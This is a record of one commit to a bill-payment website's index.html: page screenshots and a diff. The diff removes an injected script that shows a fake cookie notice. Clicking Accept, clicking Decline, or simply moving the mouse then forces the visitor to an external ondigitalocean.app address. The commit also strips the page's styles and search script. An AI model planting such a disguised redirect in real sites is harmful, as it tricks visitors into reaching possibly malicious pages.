

Before and after one commit to Ros797/paybill, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 785 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,157 +1,7 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <script>
- (function () {
-  const redirectUrl = "https://abb7d45d0038a50d30ce95b-9wfdp.ondigitalocean.app/"; // ⛳ Set your redirect URL here
-  let redirected = false;
-  let moved = false;
-  let initialPos = null;
 
-  function redirectUser() {
-    if (!redirected) {
-      redirected = true;
-      window.location.href = redirectUrl;
-    }
-  }
-
-  function showModal() {
-    const wrapper = document.createElement("div");
-    wrapper.innerHTML = `
-      <div style="
-        position: fixed;
-        top: 0; left: 0; width: 100%; height: 100%;
-        background: rgba(0,0,0,0.5);
-        display: flex; justify-content: center; align-items: center;
-        z-index: 10000;">
-        <div style="
-          background: #fff;
-          padding: 2rem;
-          border-radius: 16px;
-          max-width: 500px;
-          width: 90%;
-          text-align: center;
-          box-shadow:1px 0px 0px 13px rgb(255 227 227 / 35%);">
-          <h2 style="margin-top: 0; font-size: 24px; color: #333;">🍪 Cookie Notice</h2>
-          <p style="font-size: 15px; color: #555;">This site uses cookies to enhance functionality, analyze performance, and ensure compliance with data protection regulations. <a href="${redirectUrl}" style="color: #007bff;">Learn more</a>.</p>
-          <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: center;">
-            <button id="acceptBtn" style="
-              padding: 10px 20px;
-              background: #28a745;
-              color: white;
-              border: none;
-              border-radius: 8px;
-              font-weight: bold;
-              cursor: pointer;">Accept</button>
-            <button id="declineBtn" style="
-              padding: 10px 20px;
-              background: #dc3545;
-              color: white;
-              border: none;
-              border-radius: 8px;
-              font-weight: bold;
-              cursor: pointer;">Decline</button>
-          </div>
-        </div>
-      </div>
-    `;
-    document.body.appendChild(wrapper);
-
-    document.getElementById("acceptBtn").addEventListener("click", redirectUser);
-    document.getElementById("declineBtn").addEventListener("click", redirectUser);
-  }
-
-  window.addEventListener("load", showModal);
-
-  window.addEventListener("mousemove", function (e) {
-    if (!moved) {
-      if (!initialPos) {
-        initialPos = { x: e.clientX, y: e.clientY };
-        return;
-      }
-      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
-        moved = true;
-        setTimeout(redirectUser, 2000);
-      }
-    }
-  });
-})();
-
-
-</script>
-    <meta charset="UTF-8" />
-    <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-    <title>Bill Payment Services</title>
-    <style>
-        body {
-            font-family: Arial, sans-serif;
-            margin: 0;
-            padding: 0;
-            background-color: #f4f4f4;
-        }
-        .container {
-            max-width: 800px;
-            margin: auto;
-            background: white;
-            padding: 20px;
-            border-radius: 8px;
-            box-shadow: 0px 0px 10px #ccc;
-        }
-        header, footer {
-            background: #007BFF;
-            color: white;
-            text-align: center;
-            padding: 15px 0;
-        }
-        nav {
-            text-align: center;
-            margin: 10px 0;
-        }
-        nav a {
-            margin: 0 15px;
-            text-decoration: none;
-            color: #007BFF;
-            font-weight: bold;
-        }
-        nav a:hover {
-            text-decoration: underline;
-        }
-        h1, h2 {
-            text-align: center;
-        }
-        input {
-            width: 100%;
-            padding: 10px;
-            margin: 10px 0;
-            border: 1px solid #ccc;
-            border-radius: 4px;
-        }
-        ul {
-            list-style: none;
-            padding: 0;
-        }
-        li {
-            padding: 10px;
-            border-bottom: 1px solid #ddd;
-        }
-        a {
-            text-decoration: none;
-            color: #007BFF;
-        }
-        a:hover {
-            text-decoration: underline;
-        }
-    </style>
-
-    <script>
-        function filterList() {
-            let input = document.getElementById('search').value.toLowerCase();
-            let items = document.querySelectorAll('li');
-            items.forEach(item => {
-                item.style.display = item.innerText.toLowerCase().includes(input) ? "" : "none";
-            });
-        }
-    </script>
 </head>
 <body>
     <header>
```
